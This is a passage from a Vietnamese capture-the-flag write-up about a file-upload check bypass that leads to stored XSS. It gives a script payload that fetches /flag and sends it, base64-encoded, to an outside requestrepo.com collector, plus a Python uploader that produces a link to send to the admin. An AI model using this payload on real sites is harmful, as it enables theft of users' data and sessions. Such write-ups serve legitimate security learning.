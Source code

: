   ```
    => Lúc này length của 2 tham số đưa vào func `compareUint8Arrays` đều là 0 => pass được func này.

Vậy bây giờ thử upload 1 file `test.valueOf` với nội dung `<script>alert(1);</script>`.
![image](https://user-images.githubusercontent.com/54855855/141066164-5cd5b514-f46e-4b8f-83f1-9fb966d9bbcc.png)
=> đã upload lên thành công, bây giờ truy cập vô `id` và access vô file mình vừa upload
![image](https://user-images.githubusercontent.com/54855855/141066667-d64327d3-d1b0-4d35-8606-205797b2076c.png)
Trang trả về 1 popup alert(1) => trigger thành công xss
![image](https://user-images.githubusercontent.com/54855855/141066469-592484b5-1bc1-4737-beb3-54e26169c261.png)

=> Cuối cùng chỉ cần steal cookie và có flag

Final payload

File `payload.valueOf`

```html
<script>
fetch('/flag',{mode: 'no-cors'}).then(r=>r.text()).then(t=>fetch('https://jf0mjxws.requestrepo.com?cc='+btoa(t),{mode: 'no-cors'}))
</script>
```

File `payload.py`

```py
import requests
from bs4 import BeautifulSoup
import json
from re import findall, DOTALL

url = 'http://HOST:PORT'
path_regex = r'src="(.*?)"'

def uploadFile():
	files = {'file': open('payload.valueOf', 'rb')}
	r = requests.post(url = url+'/upload', files=files)
	id_get = json.loads(r.text)
	return id_get['id']

def getPathImg():
	id_get = uploadFile()
	r = requests.get(url=url+f'/{id_get}')
	path = findall(path_regex,r.text)[0]
	return path

print('Location save file: '+getPathImg())
```
Sau khi chạy payload trên thì nhận được một path nếu click vào thì sẽ trigger xss => bây giờ send path này cho admin
